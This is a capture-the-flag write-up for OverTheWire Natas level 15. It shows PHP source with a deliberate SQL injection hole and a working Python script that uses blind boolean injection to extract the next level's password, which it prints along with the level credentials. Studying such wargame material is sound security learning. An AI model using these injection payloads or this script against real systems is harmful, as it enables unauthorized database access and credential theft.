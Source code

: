 This level is also an SQL level. 

```php
<?php
/*
CREATE TABLE `users` (
	`username` varchar(64) DEFAULT NULL,
	`password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
	$link = mysqli_connect('localhost', 'natas15', '<censored>');
	mysqli_select_db($link, 'natas15');
	
	$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
	if(array_key_exists("debug", $_GET)) {
		echo "Executing query: $query<br>";
	}
	
	$res = mysqli_query($link, $query);
	if($res) {
		if(mysqli_num_rows($res) > 0) {
			echo "This user exists.<br>";
		} else {
			echo "This user doesn't exist.<br>";
		}
	} else {
		echo "Error in query.<br>";
	}
mysqli_close($link);
} else {
?>
```

This will check for user existence. If I try to input `natas16` into the input field, it says that `This user exists`. The query selects both fields of the `users` table. This won't show any database information to us, only 3 different types of response based on our query. If the query is correct and it returns a user, it would notify us that the user exists, else it will notify us that the user doesn't exist, otherwise the query is wrong.

For this, we can try brute forcing the password by using a python script:
```python
import requests
import string

url = 'http://natas15.natas.labs.overthewire.org/index.php?debug'
username = 'natas15'
password = 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'

character_set = string.ascii_letters + string.digits
flag_dictionary = ''
exist_string = 'This user exists.'

# building possible character dictionary for the password
for char in character_set:
    data = {'username' : 'natas16" AND password LIKE BINARY "%' + char + '%"#'}
    response = requests.post(url, auth=(username, password), data=data)

    if exist_string in response.text:
        flag_dictionary += char
        print(f'Flag dictionary: {flag_dictionary}')

print(f'Complete dictionary: {flag_dictionary}')
print('\nBrute forcing...')

correct_flag = ''

# since flag length is 32, try every 32-character strings based on the flag dictionary
for i in range(32):
    for char in flag_dictionary:
        data = {'username' : 'natas16" AND password LIKE BINARY "' + correct_flag + char + '%"#'}
        response = requests.post(url, auth=(username, password), data=data)

        if exist_string in response.text:
            correct_flag += char
            print(f'Building flag: {correct_flag}')
            break

print(f'Correct flag: {correct_flag}')
```

This script works by first building a flag dictionary, containing all the characters that is known to be in the password field. This helps narrow down the search parameter. Then we brute force each character one-by-one from start to finish.

Here's the result:
```py
natas16 password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```